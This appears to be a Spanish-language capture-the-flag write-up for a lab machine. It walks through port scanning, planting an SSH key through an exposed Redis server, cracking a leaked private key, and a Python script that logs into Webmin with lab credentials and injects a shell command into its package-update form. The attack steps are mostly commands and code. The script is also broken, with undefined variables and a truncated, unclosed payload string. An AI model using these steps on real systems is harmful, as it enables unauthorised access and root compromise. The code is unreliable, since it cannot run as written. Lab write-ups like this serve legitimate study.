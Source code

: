 --------
- Tags:
---------
## Técnicas utilizadas
- Redis Enumeration  
- Redis Exploitation - Write SSH Key  
- Webmin Exploitation - Python Scripting  
- We create our own exploit in Python - AutoPwn [Ruby code adaptation from Metasploit]
## Procedimiento

![[Pasted image 20230626113720.png]]

#### Reconocimiento

Si lanzamos un escaneo con **nmap** nos da como resultado los siguientes puertos:
```ruby
# nmap -sCV -p22,80,6379,10000 10.10.10.160 -oN Ports
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-26 11:55 MST
Nmap scan report for 10.10.10.160
Host is up (0.13s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46834ff13861c01c74cbb5d14a684d77 (RSA)
|   256 2d8d27d2df151a315305fbfff0622689 (ECDSA)
|_  256 ca7c82aa5ad372ca8b8a383a8041a045 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.63 seconds

```

Un escaneo con **whatweb** nos muestra las siguientes tecnologías corriendo por detras del sitio web:
```ruby
# whatweb 10.10.10.160
http://10.10.10.160 [200 OK] Apache[2.4.29], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.10.160], JQuery, Script, Title[The Cyber Geek's Personal Website], X-UA-Compatible[IE=edge]
```

---------
#### Redis Enumeration 

Podemos enumerar el servicio de redis con la herramienta **redis-cli** que viene por defecto en **Parrot-OS**.

--------
#### Redis Exploitation - Write SSH Key

Nos vamos aprovechar de cierta configuracion para poder meter nuestra clave publica en el **authorized_keys** del usuario **redis**.
Lo primero que tenemos que hacer es copiarnos la **id_rsa.pub** al espacio de trabajo:
```
# (echo -e "\n\n"; cat ~/id_rsa.pub; echo -e "\n\n") > spaced_key.txt
```

Luego tenemos que importar la **id_rsa.pub** al servidor **redis**:
```
# cat spaced_key.txt | redis-cli -h 10.10.10.160 -x set ssh_key
```

Posterior a esto, podemos contectarnos y ejecutar las siguientes lineas:
```
10.85.0.52:6379> config set dir /var/lib/redis/.ssh

OK

10.85.0.52:6379> config set dbfilename "authorized_keys"

OK

10.85.0.52:6379> save

OK
```

-------
#### Webmin Exploitation - Python Scripting

Una vez en la maquina, vemos que se filtra una id_rsa.bak en el **bash_history** del usuario **redis**.
El archivo esta cifrado, pero si rompemos la contraseña con **john** podemos dar con la contraseña del usuario **MATT**.
Esta misma contraseña es la que se necesita para iniciar sesión en **Webmin**. Una vez aqui, listando la versión de **Webmin** encontramos que es algo antigua y que cuenta con una vulnerabilidad de tipo **Remote Code Execution.** Podemos abusar de diversos scripts para ganar acceso como root.

A continuación se comparte un **AutoPwn** creado en directo por S4vitar.
```python
#!/usr/bin/python3

from pwn import *
import urllib3
import requests
import pdb
import signal
import sys
import threading

# ctrl + c 
def def_handler(sig,frame):
	print("\n[!] Saliendo...")
	sys.exit(1)
signal.signal(signal.SIGINT, def_handler)

# Variables globales
login_url = "https://10.10.10.160:10000/session_login.cgi"


# Funciones
def makeRequest():

	urllib3.disable_warnings()
	s = requests.session()
	s.verify = False
	
	post_data = {
		"user" : "Matt",
		"pass" : "computer2008"
	}

	headers = {
		'Cookie' : 'redirect=1; testing=1; sid=x' % cookie
	}
	
	r = s.post(login, data=post_data, headers=headers)

	post_data = [('u', 'acl/apt'), ('u' , ' | bash -c ), ('ok_top', 'Update Selected Packages')]
	headers = {'Referer': 'https://10.10.10.160:10000/package-updates/?xnavigation=1'}
	
	r = s.post(update_url, data=post_data, headers=headers)
	print(r.text)

if __name__ == "__main__":
	makeRequest()
```